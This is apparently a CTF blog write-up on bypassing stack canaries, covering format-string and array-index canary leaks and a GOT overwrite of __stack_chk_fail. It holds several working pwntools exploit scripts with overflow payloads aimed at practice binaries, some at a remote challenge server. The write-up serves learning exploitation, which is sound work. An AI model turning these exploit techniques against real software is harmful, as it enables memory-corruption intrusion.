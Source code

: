 ```yaml
---
title: Bypassing and leaking ideas about "PWN" canary
tags: ["CTF", "Pwn"]
authors: [nova]
---
```


Ready to study the bypass under different protection mechanisms before diving into the heap.

Let's take a look at Canary today

<!--truncate-->

# Leak Canary

One of the main ways to bypass Canary is to leak the value of Canary, usually through formatting strings or some output from the question.

## bin

This is a basic question that leaks Canary through format strings

![pseudocode](https://oss.nova.gal/img/image-20220116194731361.png)

![checksec](https://oss.nova.gal/img/image-20220116195013327.png)

At the same time, there is a backdoor function `cat flag`, so we only need to leak the value of the canary, and overflow to the backdoor function.

By observing GDB, we see that the canary is at the seventh parameter position of the string, directly read canary from any address.

exp:

```python
from pwn import *

context.log_level = 'DEBUG'
context.arch = 'i386'
context.os = 'linux'

sh = process('./bin')

payload = b'%7$x'
# gdb.attach(sh, 'b printf')
sh.sendline(payload)
canary = int(sh.recv(), 16)
print(canary)
getflag_addr = 0x0804863B
payload = b'A'*100 + p32(canary) + b'A'*12 + p32(getflag_addr)
sh.sendline(payload)
sh.interactive()

```

## pwn1

This utilizes knowledge of array index overflow, but the essence is the same.

By overflowing the array index to modify its upper limit judgment, then leaking canary.

(Testers believed that it should be possible to directly modify the array index to the return address, directly modifying the return address, but had not figured it out yet. While writing the script, it segfaulted, and even changing it back did not work. The programmer's question +1.)

Two exp are provided.

exp1:

```python
from pwn import *
context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'

# sh = process("./calc")
sh = remote('pwn.nos4fe.site', 10000)

sh.recvuntil(b'Your choice:')
sh.sendline(b'1')
sh.recvuntil(b'Please input the pos:')
sh.sendline(b'-2')
sh.recvuntil(b'Please input the number:')
sh.sendline(b'1000')

for i in range(23):
    sh.recvuntil(b'Your choice:')
    sh.sendline(b'1')
    sh.recvuntil(b'Please input the pos:')
    sh.sendline(b'%d' % i)
    sh.recvuntil(b'Please input the number:')
    sh.sendline(b'0')

#gdb.attach(sh, 'b puts')


sh.recvuntil(b'Your choice:')
sh.sendline(b'2')
sh.recvuntil(b'How many?')
sh.sendline(b'24')
sh.recvuntil(b"result:")
canary = int(sh.recvline())
calc_root_addr = int(0x4012BD)
sh.recvuntil(b'Your choice:')
sh.sendline(b'3')
sh.recvuntil(b"What's your name?")
payload = b'A'*(0x20-0x08) + p64(canary) + b'A'*0x08 + p64(calc_root_addr)
sh.sendline(payload)
sh.interactive()

```

exp2:

```python
from pwn import *
context.log_level='DEBUG'
context.arch='amd64'
context.os='linux'

#sh = process("./calc")
sh = remote('pwn.nos4fe.site', 10000)

sh.recvuntil(b'Your choice:')
sh.sendline(b'1')
sh.recvuntil(b'Please input the pos:')
sh.sendline(b'-2')
sh.recvuntil(b'Please input the number:')
sh.sendline(b'1000')


sh.recvuntil(b'Your choice:')
sh.sendline(b'1')
sh.recvuntil(b'Please input the pos:')
sh.sendline(b'25')
#gdb.attach(sh, 'b puts')
sh.recvuntil(b'Please input the number:')
sh.sendline(b'4199101')

sh.recvuntil(b'Your choice:')
sh.sendline(b'3')
sh.sendline(b'')
sh.interactive()
```

# Hijack stack_chk_fail

Modify the `stack_chk_fail` function's got address, so that it directly jumps to the backdoor function when executed.

Then stack overflow.

Mainly relying on formatting strings to write to arbitrary addresses (making people doubt life)

```python
from pwn import *

context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'

sh = process('./bin3')
elf = ELF('./bin3')

stack_chk_fail_got = elf.got['__stack_chk_fail']
backdoor_addr = 0x040084E

payload = fmtstr_payload(6, {stack_chk_fail_got: backdoor_addr})
print(payload)
sh.sendline(payload + b'A'*0x100)
sh.interactive()

```

> By the way, I actually don't quite understand the large number coverage of fmtstr, but pwntools unexpectedly provides `fmtstr_payload` to calculate for you, which is great

# Brute-Force

Forking a process will keep the canary constant, making it possible to brute force.

~~Haven't found the question yet~~

<!-- AI -->
